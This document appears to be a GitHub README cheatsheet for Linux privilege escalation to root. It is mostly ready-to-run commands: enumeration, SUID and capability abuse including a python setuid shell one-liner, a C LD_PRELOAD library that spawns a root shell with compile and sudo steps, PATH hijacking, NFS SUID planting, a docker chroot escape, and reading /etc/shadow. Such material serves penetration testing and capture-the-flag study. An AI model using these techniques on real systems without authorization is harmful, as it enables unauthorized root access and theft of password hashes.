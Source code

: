 # linux-privilege-escalation-cheatsheet
Simple guide of series of command and action to test the machine and get the access as root

General Info & Enumeration
Always perform this first: identify running processes, open ports, users, and interesting files to find escalation opportunities.

Essential commands:
whoami
id
hostname
uname -a
ps aux
netstat -tulnp
ss -tulnp
env
find / -name "*.log" 2>/dev/null
find / -writable -type d 2>/dev/null
cat /etc/crontab
ls -la /etc/cron.*
ls -la /var/spool/cron
ls -la /home
ls -la /tmp
sudo -l

--------------------------------------------------------------------------------------

# SUDO
Allows executing commands with elevated privileges if permitted in the sudoers file.
sudo -l
If a binary is listed, search it on GTFOBins.

--------------------------------------------------------------------------------------

# SUID (Set User ID)
Binaries that run with root privileges even when executed by unprivileged users.

find / -perm -4000 -type f 2>/dev/null
find / -perm /4000 2>/dev/null
Check each binary on GTFOBins for known exploits.

--------------------------------------------------------------------------------------

# Capabilities
Check if regular binaries have special capabilities like cap_setuid, which allow privilege escalation.

getcap -r / 2>/dev/null

If cap_setuid+ep is found on binaries like Python:
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'

--------------------------------------------------------------------------------------

# LD_PRELOAD / LD_LIBRARY_PATH
Advanced technique using environment variables and sudo to run arbitrary code.

Check if LD_PRELOAD is allowed:
sudo -l

Create this C code:
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
   unsetenv("LD_PRELOAD");
   setgid(0);
   setuid(0);
   system("/bin/bash");
}

Compile it:
gcc -fPIC -shared -o /tmp/lib.so shell.c -nostartfiles

Execute an allowed command:
sudo LD_PRELOAD=/tmp/lib.so <command>

Example:
sudo LD_PRELOAD=/tmp/lib.so find

--------------------------------------------------------------------------------------

# Cron Jobs
Scheduled scripts executed by root. If editable, they are exploitable.

cat /etc/crontab
ls -la /etc/cron.*
ls -la /var/spool/cron

Check if any scheduled scripts are writable or vulnerable to PATH hijacking.

--------------------------------------------------------------------------------------

# Weak File Permissions
Critical files like /etc/shadow or /etc/passwd with unsafe permissions may allow hash reading or user modification.

find / -writable -type f -user root 2>/dev/null
cat /etc/shadow
cat /etc/passwd

--------------------------------------------------------------------------------------

# PATH Hijacking
If a script executed by root uses commands without absolute paths, you can hijack the PATH to run your own version.

echo "/bin/bash" > cp
chmod +x cp
export PATH=.:$PATH
./script.sh

--------------------------------------------------------------------------------------

# NFS Misconfiguration
If an NFS share is mounted with no_root_squash, you can upload SUID binaries and execute them remotely.

showmount -e <IP>
mount -t nfs <IP>:/home/backup /mnt/backup
cp /bin/bash /mnt/backup/rootbash
chmod +s /mnt/backup/rootbash

--------------------------------------------------------------------------------------

# Docker Misconfiguration
If the user is in the docker group, they can access the host by running privileged containers.

id  # Check if you're in the docker group
docker run -v /:/mnt --rm -it alpine chroot /mnt sh

--------------------------------------------------------------------------------------

# Kernel Exploits
Last resort. Use known exploits against vulnerable kernels (e.g., Dirty COW, OverlayFS).

uname -a
searchsploit linux kernel










